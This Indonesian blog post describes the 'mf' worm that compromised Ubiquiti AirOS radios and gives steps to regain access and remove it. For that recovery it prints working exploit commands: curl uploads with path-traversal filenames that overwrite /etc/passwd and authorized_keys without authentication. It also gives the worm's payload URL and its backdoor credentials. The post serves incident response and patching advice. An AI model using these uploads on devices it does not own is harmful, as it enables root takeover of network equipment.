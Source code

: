 Title: Virus Ubiquiti v5.5.x error "Invalid Credentials"
Date: 2016-06-08 14:35
Author: Dhani Setiawan
Category: Misc
Tags: Linux, Networking
Slug: ubnt-virus-exploit
Status: Published
Comments: yes


Beberapa hari lalu kami dibuat pusing karena tiba-tiba saja banyak perangkat radio Ubiquiti tidak bisa diakses. Kalau coba login ke perangkat-perangkat itu muncul pesan error "Invalid Credentials" yang berarti username atau password tidak valid.

Tidak ada satu pun manusia yang merubah password. Lagi pula perangkat yang error itu jumlahnya banyak, jadi kecil kemungkinan password dirubah secara manual dengan waktu yang hampir bersamaan. Karena itu dugaan saya pertama kali ini pasti lewat scripting.

Barangkali di antara rekan-rekan ada yang juga mengalami hal ini, ini karena virus yang menamakan dirinya _mf_ (motherfu\*\*er), nama virus yang sama sekali tidak keren. Ciri-cirinya, sebagian kasus halaman login web bisa dibuka tapi gagal login. Sebagian kasus lainnya halaman login web tidak bisa dibuka tapi perangkat router atau radio itu reply kalau di-ping. untuk yang terakhir ini akses cuma bisa lewat ssh.

Normalnya, kalau username dan password perangkat sudah berubah dan tidak bisa diakses lagi, berarti harus reset ke konfigurasi default. Ini yang buat saya agak sedikit horor karena banyaknya jumlah perangkat radio yang harus direset. Untungnya cara ini tidak perlu diambil.

Saya kemudian coba cari-cari di database bug Ubiquiti AirMAX barangkali ada bug AirOS yang jadi sumber malapetaka ini. Benar saja, di HackerOne ada bug yang tergolong baru dan bug ini bisa dieksploitasi untuk bypass autentikasi.

Sebelumnya kalau rekan-rekan ada yang belum tahu AirOS, ini OS embedded untuk perangkat jaringan (Radio dan router) Ubiquiti. OS ini pakai kernel Linux yang dibuat dari OpenWRT.

Bug ini karena tidak adanya boundscheck untuk verifikasi user input lewat webserver lighttpd. Attacker bisa eksploitasi bug ini dengan upload file tanpa autentikasi. Parahnya lagi, file yang diupload itu bisa ditempatkan di mana saja karena punya hak akses root.

Bayangkan saja kalau yang diupload itu ``ssh public key`` atau file ``passwd``. File ``passwd`` bisa buat overwrite file ``/etc/passwd``, si attacker bisa login tanpa perlu autentikasi. Apa bukan mimpi buruk ini namanya, heh?

Saya lihat log bug ini di HackerOne, penemu bug ini dapat ganjaran 18.000 dolar dari Ubiquiti, whew...!  
Ubiquiti kemudian menutup bug ini di AirOS versi 5.6.2.

&nbsp;

Kembali ke virus _motherfucker_ yang mengeksploitasi bug ini.

### Apa yang dilakukan virus ini?
Virus ini di awal-awal akan download virus dari <http://pastebin.com/raw/heNFjBVK>{target="_blank"} terus extract virus mf.tgz ke direktori ``/etc/persistent`` terus buat direktori hidden ``/etc/persistent/.mf``. Virus ini kemudian menghapus user ``ubnt``, mengganti file ``/etc/passwd`` dengan file ``passwd`` versi virus.

Ada user baru di ``passwd`` dengan nama user ``moth3r`` dan password hash ``$1$RpWdAhdc$cNgp9llO5jKApRaG8b4nK1``. Belakangan diketahui password hash itu ``fuck.3r``, seseorang di belahan bumi yang lain berhasil brut force hash itu pakai _John the Ripper_.

Selanjutnya virus ini merubah mode wireless ke master, mengganti ssid, disable dhcp server, dan disable tombol reset. Untungnya semua itu gagal, jadi tidak ada yang terubah.

Virus ini menyebar dengan melihat ``ip neighbor`` dan menyebar ke perangkat yang bertetangga dengan perangkat yang terinfeksi itu.

Siapa yang vulnerable dengan virus ini? mereka adalah perangkat radio atau router Ubiquiti AirMAX yang pakai OS dibawah 5.6.2.

&nbsp;

### Cara hapus virus
Cara paling gampang kalau bisa login ssh ke router pakai username ``moth3r`` dan password ``fuck.3r``. Dari sini hapus direktori ``/etc/persistent/.mf`` sama ``/etc/persistent/rc.poststart``.

    for i in $(ps | grep mf | awk '{print $1}' | sed 's/ //'); do kill $i; done
    rm -rf /etc/persistent/.mf
    rm -f /etc/persistent/rc.poststart
    cfgmtd -w -f /tmp/system.cfg -p /etc/
    reboot

Masalahnya, ada sebagian perangkat yang user dan password itu invalid. Jadi kita tidak tahu apa passwordnya, jadi kita harus cari cara yang lain.

Kita bisa login kembali ke perangkat Ubiquiti itu dengan cara yang sama yang dipakai exploit. saya pakai file ``passwd`` sama file ``ssh public key``.

**1) user di file passwd**  
Kita bisa pakai file ``passwd`` dari mana saja. Yang di bawah ini juga bisa dipakai.

    blah:Ddc96rtq5NYfG:0:0:Administrator:/etc/persistent:/bin/sh
    ubnt:IXpEhRnqWrjjI:100:100:Administrator:/etc/persistent:/bin/false

Tidak penting apa passwordnya karena nantinya kita login pakai ssh key.

**2) Buat ssh key**  
Ssh key bisa dibuat pakai command ``ssh-keygen``, passphrase kosong saja biar nantinya bisa login tanpa password.

    Endor > ssh-keygen -t rsa -C "blah@blah.com"
    Generating public/private rsa key pair.
    Enter file in which to save the key (/home/user/.ssh/id_rsa): blah_rsa
    Enter passphrase (empty for no passphrase): 
    Enter same passphrase again: 
    Your identification has been saved in blah_rsa.
    Your public key has been saved in blah_rsa.pub.
    The key fingerprint is:
    ff:98:31:3b:3b:ec:70:8f:3c:34:6b:09:e0:2b:f4:d6 blah@blah.com
    The key's randomart image is:
    +---[RSA 2048]----+
    |                 |
    |                 |
    |                 |
    |      .          |
    |     . .S        |
    |    . . ..o      |
    |   . . o.+=+     |
    |    . + E+OX     |
    |     o   oO=o    |
    +-----------------+
    Endor >

**3) Upload file passwd dan ssh public key**  
Di sini bug itu, kita bisa seenaknya upload file terus tempatkan file itu di mana saja tanpa perlu autentikasi. Fatal kan?

    curl -F "file=@passwd;filename=../../etc/passwd" -H "Expect:" "https://192.168.1.20/login.cgi" -k
    curl -F "file=@blah_rsa.pub;filename=../../etc/dropbear/authorized_keys" -H "Expect:" "https://192.168.1.20/login.cgi" -k

Ip address 192.168.1.20 itu contoh saja.

Kemudian coba login ssh

    ssh -i blah_rsa blah@192.168.1.20

Saya berhasil login pakai ssh key, fiuhh..!! rasanya lega sekali.

**4) Hapus virus**  
Sebelum hapus virus, kita harus kill dulu semua proses yang ada hubungannya sama mf.

    for i in $(ps | grep mf | awk '{print $1}' | sed 's/ //'); do kill $i; done
    rm -rf /etc/persistent/.mf
    rm -f /etc/persistent/rc.poststart

Masih di shell Ubiquiti, kembalikan password ke default

    /usr/bin/sed -i 's/users\.1\.password=.*/users\.1\.password=35YnFRwmUdGzc/' /tmp/system.cfg
    cfgmtd -w -f /tmp/system.cfg -p /etc/
    reboot

Lokasi ``sed`` kalau di Ubiquiti AirOS memang di ``/usr/bin/sed``, beda sama kebanyakan Linux yang ``sed`` nya ada di ``/bin/sed``.

Setelah selesai reboot, kita bisa login ke router pakai password default "``ubnt``" terus upgrade ke firmware yang baru.

Selain di atas, ada cara lain lagi yang bisa diambil.  
Virus ini awal-awal masuk ke router, dia bakalan download ``curl`` dari <http://downloads.openwrt.org>{target="_blank"} dan <http://bo.mirror.garr.it/mirrors/openwrt>{target="_blank"}. Kita bisa buat file ``curl`` palsu yang isinya script buat hapus virus. Jadi waktu virus itu coba download ``curl`` dari openwrt.org, kita alihkan supaya download dari web server lokal yang isinya file ``curl`` palsu. Begitu virus ini eksekusi ``curl``, yang ada bukannya menginfeksi tetangganya tapi malah bunuh diri.

&nbsp;

Virus ini sudah mendunia, di forum Ubiquiti ada yang mengaku punya ribuan perangkat yang terinfeksi dalam semalam saja. saya membayangkannya saja seperti mimpi buruk, apalagi mengalaminya. Saran, kalau teman-teman punya Ubiquiti dengan firmware dibawah 5.6.2 dan belum kena, segera saja upgrade ke firmware baru.

&nbsp;

**Info:**  
Tulisan ini salah satu sumbernya saya ambil dari situs www.exploit-db.com. IDWebhost yang jadi hosting provider blog ini ternyata punya policy tidak boleh nge-link ke situs yang ada kata "exploit".

Saya chatting panjang kali lebar dengan support IDWebhost karena begitu tulisan ini online malah tidak bisa diakses dengan kode 404, ternyata penyebabnya karena link itu.

Jadi source-nya yang untuk exploit-db sedikit saya sensor. Rubah ``https://www.exploxx-db.com/exploxxx/39853/`` ke ``https://www.exploit-db.com/exploits/39853/``.

&nbsp;

**Source:**  

- [https://www.exploit-db.com/exploits/39853/](https://www.exploxx-db.com/exploxxx/39853/){target="_blank"}
- <https://hackerone.com/reports/73480>{target="_blank"}
- <http://www.securityweek.com/worm-infects-many-ubiquiti-devices-old-vulnerability>{target="_blank"}

&nbsp;

**Cerita lainnya:**  
["Hampir" Semua Tentang IPv6](//devnull.web.id/networking/pengenalan-ipv6.html)  
_Tulisan tentang IPv6 yang berusaha komprehensif tapi ternyata gagal membahas semua hal tentang IPv6. “Hampir” Semua Tentang IPv6, dari sejarah, kelebihan IPv6, sampai pengalamatannya._

[Membumikan OpenStack](//devnull.web.id/openstack/pengenalan-openstack.html)  
_This is a story about How I Met <s>Your Mother</s> OpenStack, ditulis dengan Layman's term._
